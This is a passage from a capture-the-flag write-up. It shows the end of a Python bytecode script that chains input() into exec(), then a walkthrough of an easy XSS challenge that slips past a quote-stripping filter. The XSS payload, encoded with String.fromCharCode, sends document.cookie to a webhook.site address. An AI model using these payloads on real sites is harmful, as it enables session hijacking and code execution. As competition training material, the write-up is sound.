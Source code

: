 ```python
        ("POP_TOP", 0),
        ("LOAD_CONST", 115),
        ("SWAP", 2),
        ("BINARY_SUBSCR", 0),
        ("COPY", 1),
        ("CALL", 0),    # input
        
        ("LOAD_CONST", 115),
        ("UNPACK_EX", 21),
        ("BUILD_TUPLE", 20),
        ("POP_TOP", 0),
        ("SWAP", 2),
        ("POP_TOP", 0),
        ("LOAD_CONST", 115),
        ("SWAP", 2),
        ("BINARY_SUBSCR", 0),
        ("SWAP", 2),
        ("CALL", 0),    # exec
        
        ("RETURN_VALUE", 0),
    ]
)
print(co_code.hex())
```

# web
---
## b01ler-ads - Easy
108 solves - 302 points
### Challenge Description
{: .no_toc }
`Ads Ads Ads! Cheap too! You want an Ad on our site? Just let us know!`

The challenge is a simple `XSS` challenge. The source code is provided, but the important part is below.

```js
const content = req.body.content.replace("'", '').replace('"', '').replace("`", '');
```

The above code sanitizes the input by removing single quotes, double quotes, and backticks. This is a common mistake in web development, as it is easy to forget about other ways to escape strings.

We can construct a string using `String.fromCharCode` to bypass the filter.

```html
<script>fetch(String.fromCharCode(104,116,116,112,115,58,47,47,119,101,98,104,111,111,107,46,115,105,116,101,47,55,98,54,51,102,55,53,97,45,57,52,55,53,45,52,49,56,56,45,98,51,56,57,45,51,54,53,99,56,102,57,100,48,102,100,97,47,63,102,108,97,103,61)%2bdocument.cookie)</script>
```
